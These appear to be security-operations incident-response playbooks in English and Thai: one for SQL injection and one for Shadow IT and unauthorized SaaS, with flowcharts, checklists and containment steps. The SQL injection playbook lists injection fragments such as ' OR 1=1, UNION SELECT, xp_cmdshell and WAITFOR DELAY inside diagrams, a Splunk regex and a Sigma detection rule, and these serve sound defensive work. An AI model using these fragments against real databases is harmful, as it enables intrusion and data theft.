> ⚠️ **CRITICAL**: SQL injection may lead to full database compromise, data exfiltration, or even OS-level command execution via `xp_cmdshell` or `LOAD_FILE()`.

### SQL Injection Attack Types

```mermaid
graph TD
    SQLi["🔴 SQL Injection"] --> Classic["Classic SQLi\n' OR 1=1 --"]
    SQLi --> Blind["Blind SQLi\nBoolean/Time-based"]
    SQLi --> Union["UNION-based\nExtract other tables"]
    SQLi --> Error["Error-based\nDB info in errors"]
    SQLi --> Stacked["Stacked Queries\nMultiple commands"]
    SQLi --> OOB["Out-of-Band\nDNS/HTTP exfil"]
    SQLi --> Second["Second-Order\nStored then triggered"]
    style SQLi fill:#ff4444,color:#fff
    style Stacked fill:#cc0000,color:#fff
    style OOB fill:#cc0000,color:#fff
```

### Attack Progression Flow

```mermaid
graph LR
    A["1️⃣ Reconnaissance\nParameter fuzzing"] --> B["2️⃣ Injection\nPayload crafted"]
    B --> C["3️⃣ Data Extraction\nUNION/Blind"]
    C --> D["4️⃣ Privilege Escalation\nDB admin access"]
    D --> E["5️⃣ OS Command\nxp_cmdshell/UDF"]
    E --> F["6️⃣ Full Compromise\nLateral movement"]
    style A fill:#ffcc00,color:#000
    style B fill:#ff9900,color:#fff
    style C fill:#ff6600,color:#fff
    style D fill:#ff4444,color:#fff
    style E fill:#cc0000,color:#fff
    style F fill:#660000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 SQLi Detected"] --> Source{"Alert Source?"}
    Source -->|WAF| WAF["Check WAF logs\nBlocked or passed?"]
    Source -->|SIEM| SIEM["Check DB query logs"]
    Source -->|IDS| IDS["Check network payload"]
    WAF --> Blocked{"Request blocked?"}
    Blocked -->|Yes| Monitor["Monitor for persistence\nCheck other endpoints"]
    Blocked -->|"No — Passed through"| Confirm["🔴 CONFIRMED SQLi"]
    SIEM --> Confirm
    IDS --> Confirm
    Confirm --> Assess{"Data accessed?"}
    Assess -->|"Schema/metadata only"| Medium["🟡 Medium — Recon phase"]
    Assess -->|"User data extracted"| High["🔴 High — Data breach"]
    Assess -->|"OS commands executed"| Critical["💀 Critical — Full compromise"]
    High --> Contain["CONTAIN & NOTIFY"]
    Critical --> Contain
    style Alert fill:#ff4444,color:#fff
    style Confirm fill:#cc0000,color:#fff
    style Critical fill:#660000,color:#fff
```

### Investigation Process

```mermaid
sequenceDiagram
    participant WAF
    participant SOC as SOC Analyst
    participant DBA as DB Admin
    participant Dev as Dev Team
    participant IR as IR Team

    WAF->>SOC: 🚨 SQLi pattern detected
    SOC->>WAF: Pull full request logs (URI, params, body)
    SOC->>DBA: Request DB query audit logs
    DBA->>SOC: Return suspicious queries
    SOC->>SOC: Correlate WAF + DB logs (timestamp match)
    SOC->>IR: Confirmed SQLi — escalate
    IR->>DBA: Check data accessed (tables, rows)
    IR->>Dev: Identify vulnerable endpoint
    Dev->>Dev: Deploy hotfix (parameterized queries)
    IR->>SOC: Assess data breach scope
```

### Database Impact Assessment

```mermaid
graph TD
    subgraph "Level 1: Reconnaissance"
        L1A["Version query\nSELECT @@version"]
        L1B["Schema enumeration\nINFORMATION_SCHEMA"]
        L1C["Table listing\nSHOW TABLES"]
    end
    subgraph "Level 2: Data Access"
        L2A["User data read\nSELECT from users"]
        L2B["Credential theft\npassword hashes"]
        L2C["Financial data\ntransactions, PII"]
    end
    subgraph "Level 3: System Compromise"
        L3A["File read\nLOAD_FILE()"]
        L3B["File write\nINTO OUTFILE"]
        L3C["OS commands\nxp_cmdshell"]
    end
    style L1A fill:#ffcc00,color:#000
    style L2B fill:#ff6600,color:#fff
    style L3C fill:#cc0000,color:#fff
```

### WAF Rule Effectiveness

```mermaid
pie title SQLi Detection by WAF Rule
    "Classic patterns blocked" : 45
    "Encoded payloads blocked" : 20
    "Blind SQLi detected" : 15
    "Bypassed (0-day)" : 10
    "False positives" : 10
```

### Response Timeline

```mermaid
gantt
    title SQL Injection Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        WAF/IDS alert          :a1, 00:00, 5min
        Log correlation        :a2, after a1, 15min
    section Containment
        Block attacker IP      :a3, after a2, 5min
        WAF emergency rules    :a4, after a3, 10min
    section Investigation
        Request analysis       :a5, after a4, 30min
        DB impact assessment   :a6, after a5, 60min
        Data breach scope      :a7, after a6, 60min
    section Recovery
        Deploy code fix        :a8, after a7, 120min
        WAF rule hardening     :a9, after a8, 60min
```

---

## 1. Immediate Actions (First 15 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | Block attacker IP at WAF/firewall | SOC T1 |
| 2 | Enable enhanced WAF rules for SQLi | SOC T1 |
| 3 | Capture full HTTP request logs (headers, body, params) | SOC T2 |
| 4 | Request database query audit logs from DBA | SOC T2 |
| 5 | Identify the vulnerable application endpoint | Dev Team |
| 6 | Check if data was exfiltrated (response sizes, timing) | SOC T2 |

## 2. Investigation Checklist

### WAF/Web Server Analysis
- [ ] Full HTTP requests with SQLi patterns (URI, params, POST body)
- [ ] Attacker IP(s), User-Agent, geographic origin
- [ ] Request frequency and timing patterns
- [ ] Check for encoding bypasses (URL, Unicode, hex, double encoding)
- [ ] Check if requests were blocked or passed through

### Database Analysis
- [ ] Enable and review query audit logs
- [ ] Check for `UNION SELECT`, `INFORMATION_SCHEMA`, `@@version` queries
- [ ] Review for `xp_cmdshell`, `LOAD_FILE()`, `INTO OUTFILE`
- [ ] Check database user privileges (was it running as DBA/root?)
- [ ] Assess which tables/rows were accessed
- [ ] Look for new database users or privilege changes

### Application Analysis
- [ ] Identify the vulnerable code (lack of parameterized queries)
- [ ] Check if ORM is used correctly
- [ ] Review input validation and sanitization
- [ ] Check for stored procedures with dynamic SQL

## 3. Containment

| Scope | Action | Details |
|:---|:---|:---|
| **Network** | Block attacker IPs | WAF + Firewall rules |
| **WAF** | Emergency SQLi rules | Block common payloads |
| **Application** | Disable vulnerable endpoint | Temporary maintenance page |
| **Database** | Revoke excessive privileges | Least-privilege for app accounts |
| **Credentials** | Rotate DB passwords | All application DB connections |

## 4. Eradication & Recovery

### Code Fixes (Priority Order)
1. **Parameterized queries** — Replace all string concatenation in SQL
2. **Input validation** — Whitelist allowed characters per field
3. **WAF rules** — Deploy custom SQLi signatures
4. **DB hardening** — Remove `xp_cmdshell`, disable `LOAD_FILE()`
5. **Least privilege** — App DB accounts with minimal permissions

### SIEM Detection Queries
```sql
-- Splunk: Detect SQLi patterns in web logs
index=web sourcetype=access_combined
| regex uri_query="(?i)(union\s+select|information_schema|or\s+1\s*=\s*1|waitfor\s+delay|benchmark\s*\(|sleep\s*\()"
| stats count by src_ip, uri_path, uri_query
| where count > 5
```

## 5. Post-Incident

### Lessons Learned
| Question | Answer |
|:---|:---|
| Was the application using parameterized queries? | [Document] |
| Did WAF detect and block the attack? | [Yes/No — rule gap?] |
| Were database privileges properly scoped? | [Document gaps] |
| Was data exfiltrated? PDPA notification required? | [Assessment] |

## 6. Detection Rules (Sigma)

```yaml
title: SQL Injection Attempt in Web Logs
logsource:
    category: webserver
detection:
    selection:
        cs-uri-query|contains:
            - 'UNION SELECT'
            - 'INFORMATION_SCHEMA'
            - 'xp_cmdshell'
            - "' OR 1=1"
            - 'WAITFOR DELAY'
            - 'BENCHMARK('
    condition: selection
    level: high
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [Web Attack Playbook](Web_Attack.en.md)
- [Data Exfiltration Playbook](Data_Exfiltration.en.md)
- [Exploit Playbook](Exploit.en.md)
- [Tier 2 Runbook](../Runbooks/Tier2_Runbook.en.md)

## References
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [MITRE T1190](https://attack.mitre.org/techniques/T1190/)
- [SQLi Cheat Sheet — PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

## File: 05_Incident_Response/Playbooks/SQL_Injection.th.md

# Playbook: การตอบสนอง SQL Injection

**ID**: PB-37
**ความรุนแรง**: สูง | **ประเภท**: Initial Access / Web Application
**MITRE ATT&CK**: [T1190](https://attack.mitre.org/techniques/T1190/) (Exploit Public-Facing Application)
**Trigger**: WAF alert, SIEM correlation (SQL patterns ผิดปกติ), IDS signature, application error spike

> ⚠️ **วิกฤต**: SQL injection อาจนำไปสู่การโจมตี database ทั้งหมด, ขโมยข้อมูล, หรือรัน OS command ผ่าน `xp_cmdshell` หรือ `LOAD_FILE()`

### ประเภท SQL Injection

```mermaid
graph TD
    SQLi["🔴 SQL Injection"] --> Classic["Classic SQLi\n' OR 1=1 --"]
    SQLi --> Blind["Blind SQLi\nBoolean/Time-based"]
    SQLi --> Union["UNION-based\nExtract ตารางอื่น"]
    SQLi --> Error["Error-based\nข้อมูล DB ใน error"]
    SQLi --> Stacked["Stacked Queries\nหลายคำสั่ง"]
    SQLi --> OOB["Out-of-Band\nDNS/HTTP exfil"]
    SQLi --> Second["Second-Order\nเก็บแล้วทำงานทีหลัง"]
    style SQLi fill:#ff4444,color:#fff
    style Stacked fill:#cc0000,color:#fff
    style OOB fill:#cc0000,color:#fff
```

### ลำดับการโจมตี

```mermaid
graph LR
    A["1️⃣ สำรวจ\nParameter fuzzing"] --> B["2️⃣ Injection\nสร้าง payload"]
    B --> C["3️⃣ ดึงข้อมูล\nUNION/Blind"]
    C --> D["4️⃣ Privilege Escalation\nDB admin access"]
    D --> E["5️⃣ OS Command\nxp_cmdshell/UDF"]
    E --> F["6️⃣ Compromise เต็มรูป\nLateral movement"]
    style A fill:#ffcc00,color:#000
    style B fill:#ff9900,color:#fff
    style C fill:#ff6600,color:#fff
    style D fill:#ff4444,color:#fff
    style E fill:#cc0000,color:#fff
    style F fill:#660000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 ตรวจพบ SQLi"] --> Source{"แหล่ง Alert?"}
    Source -->|WAF| WAF["ตรวจ WAF logs\nBlock หรือผ่าน?"]
    Source -->|SIEM| SIEM["ตรวจ DB query logs"]
    Source -->|IDS| IDS["ตรวจ network payload"]
    WAF --> Blocked{"Request ถูก block?"}
    Blocked -->|ใช่| Monitor["ตรวจติดตามต่อเนื่อง\nเช็ค endpoint อื่น"]
    Blocked -->|"ไม่ — ผ่านเข้ามา"| Confirm["🔴 ยืนยัน SQLi"]
    SIEM --> Confirm
    IDS --> Confirm
    Confirm --> Assess{"ข้อมูลถูกเข้าถึง?"}
    Assess -->|"Schema/metadata เท่านั้น"| Medium["🟡 ปานกลาง — ขั้นสำรวจ"]
    Assess -->|"ข้อมูลผู้ใช้ถูกดึง"| High["🔴 สูง — Data breach"]
    Assess -->|"OS commands ถูกรัน"| Critical["💀 วิกฤต — Full compromise"]
    High --> Contain["CONTAIN & แจ้ง"]
    Critical --> Contain
    style Alert fill:#ff4444,color:#fff
    style Confirm fill:#cc0000,color:#fff
    style Critical fill:#660000,color:#fff
```

### ขั้นตอนการสืบสวน

```mermaid
sequenceDiagram
    participant WAF
    participant SOC as SOC Analyst
    participant DBA as DB Admin
    participant Dev as Dev Team
    participant IR as IR Team

    WAF->>SOC: 🚨 ตรวจพบ SQLi pattern
    SOC->>WAF: ดึง request logs ทั้งหมด (URI, params, body)
    SOC->>DBA: ขอ DB query audit logs
    DBA->>SOC: ส่ง queries ที่น่าสงสัย
    SOC->>SOC: เปรียบเทียบ WAF + DB logs (timestamp match)
    SOC->>IR: ยืนยัน SQLi — escalate
    IR->>DBA: ตรวจข้อมูลที่ถูกเข้าถึง (tables, rows)
    IR->>Dev: ระบุ endpoint ที่มีช่องโหว่
    Dev->>Dev: Deploy hotfix (parameterized queries)
    IR->>SOC: ประเมินขอบเขต data breach
```

### การประเมินผลกระทบ Database

```mermaid
graph TD
    subgraph "Level 1: สำรวจ"
        L1A["Version query\nSELECT @@version"]
        L1B["Schema enumeration\nINFORMATION_SCHEMA"]
        L1C["Table listing\nSHOW TABLES"]
    end
    subgraph "Level 2: เข้าถึงข้อมูล"
        L2A["อ่านข้อมูลผู้ใช้\nSELECT from users"]
        L2B["ขโมย credential\npassword hashes"]
        L2C["ข้อมูลการเงิน\ntransactions, PII"]
    end
    subgraph "Level 3: Compromise ระบบ"
        L3A["อ่านไฟล์\nLOAD_FILE()"]
        L3B["เขียนไฟล์\nINTO OUTFILE"]
        L3C["OS commands\nxp_cmdshell"]
    end
    style L1A fill:#ffcc00,color:#000
    style L2B fill:#ff6600,color:#fff
    style L3C fill:#cc0000,color:#fff
```

### ประสิทธิภาพ WAF Rules

```mermaid
pie title SQLi Detection โดย WAF Rule
    "Classic patterns blocked" : 45
    "Encoded payloads blocked" : 20
    "Blind SQLi detected" : 15
    "Bypassed (0-day)" : 10
    "False positives" : 10
```

### Timeline การตอบสนอง

```mermaid
gantt
    title SQL Injection Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        WAF/IDS alert          :a1, 00:00, 5min
        Log correlation        :a2, after a1, 15min
    section Containment
        Block attacker IP      :a3, after a2, 5min
        WAF emergency rules    :a4, after a3, 10min
    section Investigation
        วิเคราะห์ request      :a5, after a4, 30min
        ประเมินผลกระทบ DB     :a6, after a5, 60min
        ขอบเขต data breach    :a7, after a6, 60min
    section Recovery
        Deploy code fix        :a8, after a7, 120min
        WAF rule hardening     :a9, after a8, 60min
```

---

## 1. การดำเนินการทันที (15 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | Block IP ผู้โจมตีที่ WAF/firewall | SOC T1 |
| 2 | เปิด WAF rules เข้มงวดสำหรับ SQLi | SOC T1 |
| 3 | เก็บ HTTP request logs เต็มรูปแบบ (headers, body, params) | SOC T2 |
| 4 | ขอ database query audit logs จาก DBA | SOC T2 |
| 5 | ระบุ application endpoint ที่มีช่องโหว่ | Dev Team |
| 6 | ตรวจว่าข้อมูลถูกนำออกหรือไม่ (response sizes, timing) | SOC T2 |

## 2. รายการตรวจสอบการสืบสวน

### วิเคราะห์ WAF/Web Server
- [ ] HTTP requests ที่มี SQLi patterns ทั้งหมด (URI, params, POST body)
- [ ] IP ผู้โจมตี, User-Agent, ที่ตั้งทางภูมิศาสตร์
- [ ] ความถี่และรูปแบบเวลาของ requests
- [ ] ตรวจ encoding bypasses (URL, Unicode, hex, double encoding)
- [ ] ตรวจว่า requests ถูก block หรือผ่านเข้ามา

### วิเคราะห์ Database
- [ ] เปิดและตรวจ query audit logs
- [ ] ตรวจ `UNION SELECT`, `INFORMATION_SCHEMA`, `@@version`
- [ ] ตรวจ `xp_cmdshell`, `LOAD_FILE()`, `INTO OUTFILE`
- [ ] ตรวจ privileges ของ database user (รันเป็น DBA/root หรือไม่?)
- [ ] ประเมิน tables/rows ที่ถูกเข้าถึง
- [ ] ตรวจ database users ใหม่หรือการเปลี่ยนแปลง privileges

### วิเคราะห์ Application
- [ ] ระบุ code ที่มีช่องโหว่ (ไม่ใช้ parameterized queries)
- [ ] ตรวจว่า ORM ใช้ถูกต้องหรือไม่
- [ ] ตรวจ input validation และ sanitization
- [ ] ตรวจ stored procedures ที่มี dynamic SQL

## 3. การควบคุม (Containment)

| ขอบเขต | การดำเนินการ | รายละเอียด |
|:---|:---|:---|
| **เครือข่าย** | Block IP ผู้โจมตี | WAF + Firewall rules |
| **WAF** | Emergency SQLi rules | Block payloads ทั่วไป |
| **Application** | ปิด endpoint ที่มีช่องโหว่ | หน้า maintenance ชั่วคราว |
| **Database** | เพิกถอน privileges เกิน | Least-privilege สำหรับ app accounts |
| **Credentials** | หมุนเวียน DB passwords | ทุก application DB connections |

## 4. การกำจัดและกู้คืน

### Code Fixes (ลำดับความสำคัญ)
1. **Parameterized queries** — แทนที่ string concatenation ใน SQL ทั้งหมด
2. **Input validation** — Whitelist ตัวอักษรที่อนุญาตต่อ field
3. **WAF rules** — Deploy SQLi signatures เฉพาะ
4. **DB hardening** — ลบ `xp_cmdshell`, ปิด `LOAD_FILE()`
5. **Least privilege** — App DB accounts มี permissions น้อยที่สุด

### SIEM Detection Queries
```sql
-- Splunk: ตรวจจับ SQLi patterns ใน web logs
index=web sourcetype=access_combined
| regex uri_query="(?i)(union\s+select|information_schema|or\s+1\s*=\s*1|waitfor\s+delay|benchmark\s*\(|sleep\s*\()"
| stats count by src_ip, uri_path, uri_query
| where count > 5
```

## 5. หลังเหตุการณ์ (Post-Incident)

### บทเรียน
| คำถาม | คำตอบ |
|:---|:---|
| Application ใช้ parameterized queries หรือไม่? | [บันทึก] |
| WAF ตรวจจับและ block ได้หรือไม่? | [ใช่/ไม่ — rule gap?] |
| Database privileges กำหนดถูกต้องหรือไม่? | [บันทึกช่องว่าง] |
| ข้อมูลถูกนำออกหรือไม่? ต้องแจ้ง PDPA? | [ประเมิน] |

## 6. Detection Rules (Sigma)

```yaml
title: SQL Injection Attempt in Web Logs
logsource:
    category: webserver
detection:
    selection:
        cs-uri-query|contains:
            - 'UNION SELECT'
            - 'INFORMATION_SCHEMA'
            - 'xp_cmdshell'
            - "' OR 1=1"
            - 'WAITFOR DELAY'
            - 'BENCHMARK('
    condition: selection
    level: high
```

## เอกสารที่เกี่ยวข้อง
- [Web Attack Playbook](Web_Attack.th.md)
- [Data Exfiltration Playbook](Data_Exfiltration.th.md)
- [Exploit Playbook](Exploit.th.md)
- [คู่มือ Tier 2](../Runbooks/Tier2_Runbook.th.md)

## References
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [MITRE T1190](https://attack.mitre.org/techniques/T1190/)
- [SQLi Cheat Sheet — PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

## File: 05_Incident_Response/Playbooks/Shadow_IT.en.md

# Playbook: Shadow IT / Unauthorized SaaS

**ID**: PB-29
**Severity**: Medium/High | **Category**: Governance & Compliance
**MITRE ATT&CK**: [T1567](https://attack.mitre.org/techniques/T1567/) (Exfiltration Over Web Service), [T1537](https://attack.mitre.org/techniques/T1537/) (Transfer Data to Cloud Account)
**Trigger**: CASB alert, Proxy log anomaly, User report, SaaS audit, Network anomaly

### Shadow IT Discovery

```mermaid
graph LR
    Proxy["🌐 Proxy Logs"] --> CASB["🔍 CASB"]
    CASB --> Discover["📋 Unsanctioned App"]
    DNS["🔤 DNS Analytics"] --> Discover
    Expense["💳 Expense Reports"] --> Discover
    Discover --> Assess["⚖️ Risk Assessment"]
    style Discover fill:#f39c12,color:#fff
    style Assess fill:#e74c3c,color:#fff
```

### SaaS Governance

```mermaid
sequenceDiagram
    participant User
    participant SOC
    participant IT
    participant Owner as Business Owner
    SOC->>IT: 🚨 Unsanctioned SaaS found
    IT->>Owner: Check business need
    Owner-->>IT: Needed — request approval
    IT->>SOC: Move to approved list
    IT->>User: Migrate data + SSO
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Unauthorized SaaS / Cloud Service"] --> Source{"🔍 Detection Source?"}
    Source -->|CASB Discovery| CASB["📊 Review CASB Risk Score"]
    Source -->|DLP Alert| DLP["📄 Check Data Classification"]
    Source -->|Proxy/DNS Logs| Proxy["🌐 Analyze Usage Pattern"]
    Source -->|Audit Finding| Audit["📋 Review Scope"]
    CASB --> Data{"📁 Corporate Data Uploaded?"}
    DLP --> Data
    Proxy --> Data
    Audit --> Data
    Data -->|Yes, Sensitive/PII| High["🔴 P2 — Data Exposure"]
    Data -->|Yes, Non-Sensitive| Medium["🟠 P3 — Policy Violation"]
    Data -->|No, Usage Only| Low["🟡 P4 — Awareness"]
    High --> Contain["🔒 Block + Retrieve Data"]
    Medium --> Educate["📚 Educate + Monitor"]
    Low --> Educate
```

---

## 1. Analysis

### 1.1 Service Risk Assessment

| Category | Examples | Data Risk | Priority |
|:---|:---|:---|:---|
| **File sharing** | WeTransfer, Google Drive (personal), Dropbox | 🔴 High — data exposure | P2 |
| **AI/LLM tools** | ChatGPT, Copilot (unapproved), Bard | 🔴 High — data in prompts | P2 |
| **Project management** | Notion, Trello, Asana (personal) | 🟠 Medium — IP exposure | P3 |
| **Communication** | WhatsApp, Telegram, Discord | 🟠 Medium — conversation leaks | P3 |
| **Development** | GitHub (personal), Replit, Codespaces | 🔴 High — source code | P2 |
| **Email** | Personal Gmail, ProtonMail | 🔴 High — data forward | P2 |
| **Design/Docs** | Canva, Figma (personal), Google Docs | 🟡 Low-Medium | P3-P4 |

### 1.2 Investigation Checklist

| Check | How | Done |
|:---|:---|:---:|
| What service is being used? | CASB / Proxy logs | ☐ |
| How many users? (individual or department-wide) | CASB discovery | ☐ |
| How long has it been used? | Historical proxy logs | ☐ |
| Was corporate data uploaded? What type? | DLP / CASB | ☐ |
| Did users sign up with corporate email? | Service registration, CASB | ☐ |
| Were corporate credentials reused? | User interview | ☐ |
| Is OAuth/SSO connected to corporate IdP? | Enterprise apps audit | ☐ |
| Is there a legitimate business need? | Business unit inquiry | ☐ |

### 1.3 Data Exposure Assessment

| Data Category | Exposed? | Classification | Action Required |
|:---|:---|:---|:---|
| Customer PII | ☐ Yes ☐ No | L4 | PDPA notification |
| Source code / IP | ☐ Yes ☐ No | L3-L4 | Immediate retrieval |
| Financial data | ☐ Yes ☐ No | L4 | Legal review |
| Internal communications | ☐ Yes ☐ No | L2-L3 | Assess impact |
| AI prompt data | ☐ Yes ☐ No | Varies | Review content |

---

## 2. Containment

### 2.1 High Risk (Data Uploaded)

| # | Action | Tool | Done |
|:---:|:---|:---|:---:|
| 1 | **Block service** at proxy/firewall | Proxy / Firewall | ☐ |
| 2 | **Revoke OAuth** connections to corporate IdP | Enterprise Apps | ☐ |
| 3 | **Enable DLP** to prevent further uploads | CASB / DLP | ☐ |
| 4 | **Capture evidence** — CASB/proxy logs, data transfer details | CASB | ☐ |
| 5 | Notify user's manager | Email / Chat | ☐ |

### 2.2 Medium/Low Risk (Usage Only)

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Send awareness notification to user(s) | ☐ |
| 2 | Log the service in Shadow IT register | ☐ |
| 3 | Add to CASB monitoring (don't block yet) | ☐ |
| 4 | Assess if sanctioning the tool is appropriate | ☐ |

---

## 3. Remediation

| # | Action | Owner | Done |
|:---:|:---|:---|:---:|
| 1 | **Export / delete** corporate data from unauthorized service | User + IT | ☐ |
| 2 | **Delete accounts** or change passwords if corporate creds reused | User | ☐ |
| 3 | **Evaluate business need** — consider sanctioning with security controls | IT + Security | ☐ |
| 4 | **Update AUP** (Acceptable Use Policy) with explicit guidance | Security | ☐ |
| 5 | If PII was exposed, initiate PDPA notification process | Legal / DPO | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Provide sanctioned alternatives that meet the business need | ☐ |
| 2 | Tune CASB policies for continuous Shadow IT discovery | ☐ |
| 3 | Implement SaaS governance framework (request/approve/review cycle) | ☐ |
| 4 | Monthly review of unsanctioned SaaS from proxy/DNS logs | ☐ |
| 5 | Conduct awareness training on data security risks of unauthorized cloud | ☐ |

---

## 5. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| PII or customer data uploaded | Legal + DPO (PDPA 72h) |
| Source code uploaded to public service | CISO + Engineering Lead |
| Data uploaded to AI/LLM service | CISO + Privacy team |
| Executive found using unauthorized service | CISO + HR |
| Department-wide usage (>10 users) | SOC Lead + IT Director |
| OAuth connected to corporate directory | Identity team urgently |

---

## 6. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| SaaS service name / URL | | Proxy / DNS logs |
| User accounts involved | | AD / SSO logs |
| Data uploaded (file names, size) | | DLP / proxy |
| OAuth app consents granted | | Azure AD / Google Workspace |
| API keys / tokens created | | Cloud admin console |
| IP addresses of SaaS service | | Firewall logs |
| Authentication method used | | Identity provider logs |
| Duration of usage | | Proxy / CASB |

## 7. Post-Incident

- [ ] Add discovered Shadow IT service to CASB blocklist
- [ ] Review and update approved SaaS catalog
- [ ] Implement automated Shadow IT discovery scanning (monthly)
- [ ] Update employee code of conduct regarding unsanctioned services
- [ ] Conduct awareness training on data security risks
- [ ] Review OAuth app consent policies (restrict by default)
- [ ] Document findings in [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

---

### SaaS Risk Scoring

```mermaid
graph TD
    App["📱 Unsanctioned App"] --> Score{"⚖️ Risk Score?"}
    Score -->|High Risk| Block["🔒 Block immediately"]
    Score -->|Medium Risk| Review["👁️ Review: alternatives?"]
    Score -->|Low Risk| Allow["✅ Allow + monitor"]
    Review -->|Yes| Migrate["🔄 Migrate to approved"]
    Review -->|No| Onboard["📋 Onboard + SSO"]
    style Block fill:#e74c3c,color:#fff
    style Onboard fill:#27ae60,color:#fff
```

### SSO Integration Flow

```mermaid
sequenceDiagram
    participant User
    participant IdP as Azure AD SSO
    participant App as SaaS App
    participant SOC
    User->>IdP: Login to SaaS
    IdP->>IdP: MFA + Conditional Access
    IdP->>App: SAML assertion
    App-->>User: ✅ Access granted
    IdP->>SOC: 📋 Audit log
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Shadow IT — Unauthorized SaaS Usage | [proxy_shadow_it.yml](../../08_Detection_Engineering/sigma_rules/proxy_shadow_it.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-08 Data Exfiltration](Data_Exfiltration.en.md)
- [Data Governance Policy](../../07_Compliance_Privacy/Data_Governance_Policy.en.md)
- [PDPA Compliance](../../07_Compliance_Privacy/PDPA_Compliance.en.md)

## References

- [MITRE ATT&CK T1567 — Exfiltration Over Web Service](https://attack.mitre.org/techniques/T1567/)
- [NIST SP 800-144 — Cloud Computing Guidelines](https://csrc.nist.gov/publications/detail/sp/800-144/final)


---

## File: 05_Incident_Response/Playbooks/Shadow_IT.th.md

# Playbook: Shadow IT / SaaS ที่ไม่ได้รับอนุญาต

**ID**: PB-29
**ระดับความรุนแรง**: ปานกลาง/สูง | **หมวดหมู่**: ธรรมาภิบาลและการปฏิบัติตามกฎระเบียบ
**MITRE ATT&CK**: [T1567](https://attack.mitre.org/techniques/T1567/) (การนำข้อมูลออกผ่านบริการเว็บ), [T1537](https://attack.mitre.org/techniques/T1537/) (โอนข้อมูลไปยังบัญชีคลาวด์)
**ทริกเกอร์**: CASB alert, proxy log anomaly, ผู้ใช้รายงาน, SaaS audit, network anomaly


## หลังเหตุการณ์ (Post-Incident)

- [ ] เพิ่ม Shadow IT service ที่พบใน CASB blocklist
- [ ] ทบทวนและอัพเดท approved SaaS catalog
- [ ] ใช้ automated Shadow IT discovery scanning (รายเดือน)
- [ ] อัพเดท code of conduct เรื่อง unsanctioned services
- [ ] จัด awareness training เรื่อง data security risks
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผังการค้นพบ Shadow IT

```mermaid
graph LR
    Proxy["🌐 Proxy Logs"] --> CASB["🔍 CASB"]
    CASB --> Discover["📋 Unsanctioned App"]
    DNS["🔤 DNS Analytics"] --> Discover
    Expense["💳 Expense Reports"] --> Discover
    Discover --> Assess["⚖️ Risk Assessment"]
    style Discover fill:#f39c12,color:#fff
    style Assess fill:#e74c3c,color:#fff
```

### ผังขั้นตอน SaaS Governance

```mermaid
sequenceDiagram
    participant User as ผู้ใช้
    participant SOC
    participant IT
    participant Owner as Business Owner
    SOC->>IT: 🚨 พบ SaaS ที่ไม่ได้อนุมัติ
    IT->>Owner: ตรวจสอบ business need
    Owner-->>IT: จำเป็น — ขออนุมัติ
    IT->>SOC: ย้ายเข้า approved list
    IT->>User: migrate data + SSO
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 SaaS / Cloud ที่ไม่ได้รับอนุญาต"] --> Source{"🔍 แหล่งที่ตรวจพบ?"}
    Source -->|CASB| CASB["📊 ตรวจสอบ Risk Score"]
    Source -->|DLP Alert| DLP["📄 ตรวจสอบการจำแนกข้อมูล"]
    Source -->|Proxy/DNS| Proxy["🌐 วิเคราะห์รูปแบบการใช้งาน"]
    CASB --> Data{"📁 มีข้อมูลองค์กรถูกอัปโหลด?"}
    DLP --> Data
    Proxy --> Data
    Data -->|ใช่, ข้อมูลสำคัญ/PII| High["🔴 P2 — ข้อมูลรั่วไหล"]
    Data -->|ใช่, ไม่สำคัญ| Medium["🟠 P3 — ละเมิดนโยบาย"]
    Data -->|ไม่, ใช้งานเท่านั้น| Low["🟡 P4 — ให้ความรู้"]
    High --> Contain["🔒 บล็อก + เรียกคืนข้อมูล"]
    Medium --> Educate["📚 ให้ความรู้ + ติดตาม"]
```

---

## 1. การวิเคราะห์

### 1.1 การประเมินความเสี่ยงของบริการ

| หมวดหมู่ | ตัวอย่าง | ความเสี่ยงข้อมูล | ลำดับความสำคัญ |
|:---|:---|:---|:---|
| **แชร์ไฟล์** | WeTransfer, Google Drive (ส่วนตัว), Dropbox | 🔴 สูง | P2 |
| **AI/LLM** | ChatGPT, Copilot (ไม่ได้รับอนุมัติ) | 🔴 สูง — ข้อมูลใน prompt | P2 |
| **จัดการโปรเจกต์** | Notion, Trello, Asana (ส่วนตัว) | 🟠 ปานกลาง | P3 |
| **สื่อสาร** | WhatsApp, Telegram, Discord | 🟠 ปานกลาง | P3 |
| **พัฒนาซอฟต์แวร์** | GitHub (ส่วนตัว), Replit | 🔴 สูง — ซอร์สโค้ด | P2 |
| **อีเมล** | Gmail ส่วนตัว, ProtonMail | 🔴 สูง | P2 |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| บริการอะไรถูกใช้? | CASB / Proxy logs | ☐ |
| มีผู้ใช้กี่คน? (เดี่ยวหรือทั้งแผนก) | CASB discovery | ☐ |
| มีข้อมูลองค์กรถูกอัปโหลดหรือไม่? | DLP / CASB | ☐ |
| ผู้ใช้ลงทะเบียนด้วยอีเมลองค์กรหรือไม่? | CASB, การสอบถาม | ☐ |
